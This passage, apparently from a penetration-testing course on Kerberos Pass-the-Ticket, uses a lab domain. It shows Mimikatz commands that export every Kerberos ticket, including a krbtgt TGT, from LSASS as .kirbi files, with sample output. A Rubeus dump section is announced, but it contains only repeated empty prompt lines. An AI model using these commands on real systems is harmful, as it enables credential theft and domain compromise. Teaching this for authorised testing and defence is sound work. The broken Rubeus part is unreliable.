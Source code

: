 &#x20;Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

We can harvest all tickets from a system using the `Mimikatz` module `sekurlsa::tickets /export`. The result is a list of files with the extension `.kirbi`, which contain the tickets.

{% code fullWidth="true" %}
```powershell
c:\tools> mimikatz.exe

 .......

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export
.......

mimikatz # exit
Bye!

c:\tools> dir *.kirbi

Directory: c:\tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----

<SNIP>

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi

<SNIP>

```
{% endcode %}

The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory. User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`.

Note: If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.

***

We can also export tickets using `Rubeus` and the option `dump`. This option can be used to dump all tickets (if running as a local administrator). `Rubeus dump`, instead of giving us a file, will print the ticket encoded in base64 format. We are adding the option `/nowrap` for easier copy-paste.

<mark style="color:green;">**Rubeus - Export Tickets**</mark>


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname